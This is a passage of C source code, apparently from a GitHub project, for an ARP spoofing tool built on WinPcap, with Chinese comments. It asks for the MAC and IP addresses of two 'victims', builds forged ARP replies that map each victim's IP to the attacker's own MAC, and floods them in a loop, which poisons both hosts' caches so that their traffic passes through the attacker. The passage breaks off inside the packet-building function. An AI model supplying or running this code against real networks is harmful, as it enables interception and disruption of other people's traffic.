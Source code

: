 ```c
	printf("please input victim2's mac like aa-aa-aa-aa-aa-aa: ");
	scanf_s("%x-%x-%x-%x-%x-%x", &victim2_mac[0], &victim2_mac[1], &victim2_mac[2], &victim2_mac[3], &victim2_mac[4], &victim2_mac[5]);

	pktbuild(&packet1, self_mac, victim1_ip, victim2_mac, victim2_ip);				//build a arp-packet at &packet
	pktbuild(&packet2, self_mac, victim2_ip, victim1_mac, victim1_ip);				//build a arp-packet at &packet

	printf("please input the flood(num of packet to send):");
	scanf_s("%d", &flood);

	/* Send down the packet */
	for (int i = 0; i < flood; i++)
	{
		if (pcap_sendpacket(fp,	// Adapter
			packet1,				// buffer with the packet
			100				// size
			) != 0)
		{
			fprintf(stderr, "\nError sending the packet: %s\n", pcap_geterr(fp));
			return 3;
		}

		if (pcap_sendpacket(fp,	// Adapter
			packet2,				// buffer with the packet
			100				// size
		) != 0)
		{
			fprintf(stderr, "\nError sending the packet: %s\n", pcap_geterr(fp));
			return 3;
		}

		Sleep(100);			//发送间隔时间100ms
	}
	pcap_close(fp);
	return 0;
}

/* build arp-packet */
void pktbuild(u_char *packet, int *smac, int *sip, int *dmac, int *dip)
{
	/* 目的以太网地址 */
	packet[0] = dmac[0];
	packet[1] = dmac[1];
	packet[2] = dmac[2];
	packet[3] = dmac[3];
	packet[4] = dmac[4];
	packet[5] = dmac[5];

	/* 源以太网地址 */
	packet[6] =  smac[0];
	packet[7] =  smac[1];
	packet[8] =  smac[2];
	packet[9] =  smac[3];
	packet[10] = smac[4];
	packet[11] = smac[5];

	/* set arp */
	packet[12] = 0x08;	//0x0806表示该帧封装ARP包
	packet[13] = 0x06;

	packet[14] = 0x00;	//硬件类型，值为1表示以太网
```
